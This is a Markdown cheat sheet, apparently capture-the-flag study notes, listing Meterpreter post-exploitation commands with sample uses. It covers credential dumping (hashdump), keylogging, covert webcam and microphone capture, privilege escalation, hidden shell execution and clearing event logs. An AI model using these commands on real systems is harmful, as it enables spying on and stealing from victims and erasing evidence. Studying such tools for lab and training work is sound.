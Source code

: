 ## Core Commands

- `background` – Backgrounds the current session
- `exit` – Terminate the Meterpreter session
- `guid` – Get the session GUID (Globally Unique Identifier)
- `help` – Displays the help menu
- `info` – Displays information about a Post module
- `irb` – Opens an interactive Ruby shell on the current session
- `load` – Loads one or more Meterpreter extensions
- `migrate` – Migrate Meterpreter to another process
- `run` – Executes a Meterpreter script or Post module
- `sessions` – Quickly switch to another session

## File System Commands

- `cd` – Change directory
- `ls` (or `dir`) – List files in the current directory
- `pwd` – Print the current working directory
- `edit` – Edit a file
- `cat` – Show the contents of a file
- `rm` – Delete a file
- `search` – Search for files
- `upload` – Upload a file or directory
- `download` – Download a file or directory

## Networking Commands

- `arp` – Display the host ARP (Address Resolution Protocol) cache
- `ifconfig` – Display network interfaces
- `netstat` – Display network connections
- `portfwd` – Forward a local port to a remote service
- `route` – View and modify the routing table

## System Commands

- `clearev` – Clear event logs
- `execute` – Execute a command
- `getpid` – Show current process ID
- `getuid` – Show user Meterpreter is running as
- `kill` – Terminate a process
- `pkill` – Terminate processes by name
- `ps` – List running processes
- `reboot` – Reboot the remote computer
- `shell` – Open a system command shell
- `shutdown` – Shutdown the remote computer
- `sysinfo` – Get information about the remote system

## Other Commands

- `idletime` – Show how long the user has been idle
- `keyscan_dump` – Dump the keystroke buffer
- `keyscan_start` – Start capturing keystrokes
- `keyscan_stop` – Stop capturing keystrokes
- `screenshare` – Watch the remote desktop in real time
- `screenshot` – Grab a screenshot
- `record_mic` – Record audio from microphone
- `webcam_chat` – Start a video chat
- `webcam_list` – List webcams
- `webcam_snap` – Take a snapshot from a webcam
- `webcam_stream` – Play a webcam video stream
- `getsystem` – Attempt to elevate to local system
- `hashdump` – Dump SAM (Security Account Manager) database

---

## Core

- migrate 1234
- run post/windows/gather/enum_logged_on_users
- sessions -i 2
- load python

## fs

- cd C:\Windows\Temp
- cat C:\Windows\System32\drivers\etc\hosts
- edit notes.txt
- rm old.log
- search -f \*.pdf
- search -f flag2.txt
- upload tool.exe C:\Temp\tool.exe
- download secret.txt

## network

- portfwd add -l 8080 -p tcp -r 127.0.0.1 -L 80

## system

- kill 4321
- pkill chrome
- execute -f cmd.exe -i -H

## etc

- webcam_snap -i 1
- webcam_stream -i 1
- record_mic -d 10
